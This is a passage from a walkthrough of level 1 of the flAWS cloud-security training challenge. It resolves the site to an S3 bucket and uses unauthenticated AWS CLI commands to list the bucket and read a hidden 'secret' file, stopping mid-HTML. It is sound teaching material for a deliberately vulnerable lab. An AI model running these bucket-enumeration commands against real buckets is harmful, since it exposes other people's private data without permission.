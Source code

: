 2nd - Use `nslookup` to find the domain name
{% highlight bash %}  
┌──(fumenoid㉿kali)-[~]
└─$ nslookup 52.218.169.58                   
58.169.218.52.in-addr.arpa      name = s3-website-us-west-2.amazonaws.com.

Authoritative answers can be found from:
{% endhighlight %}

We can conclude from this that the `S3 bucket` is used to host the website and it is hosted from a server in `us-west-2`. 

As the name of bucket should be same as the domain, so bucket name is flaws.cloud and we can reach the same website using the url - `https://flaws.cloud.s3-website-us-west-3.amazonaws.com` 

{% include image.html path="documentation/Pasted image 20211022121946.png"
path-detail="documentation/Pasted image 20211022121946.png"
alt="Level 1" %}

Alright now let's check if the bucket is configured insecurily.

{% highlight bash %}
sudo apt install awscli
{% endhighlight %}

`CLI` to read files
{% highlight bash %}
┌──(fumenoid㉿kali)-[~]
└─$ aws s3 ls s3://flaws.cloud --recursive --no-sign-request
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2020-05-22 14:16:45       3162 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
{% endhighlight %}

Alternatively, we can also navigate to `https://flaws.cloud.s3.amazonaws.com`.

{% include image.html path="documentation/Pasted image 20211022141723.png"
path-detail="documentation/Pasted image 20211022141723.png"
alt="Level 1" %}

Readin files, both web and cli

`Web` - bucketname.s3.amazonaws.com/key

{% include image.html path="documentation/Pasted image 20211022141837.png"
path-detail="documentation/Pasted image 20211022141837.png"
alt="Level 1" %}

`CLI` - cp the file to stdout and use --no-sign-request as we don't have keys to sign in anyway.
{% highlight bash %}
┌──(fumenoid㉿kali)-[~]
└─$ aws s3 cp s3://flaws.cloud/secret-dd02c7c.html - --no-sign-request                                                                                                                  255 ⨯
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000; 
            border-width: 1px; border-style: solid;} 
        </style>
    </head>
<body 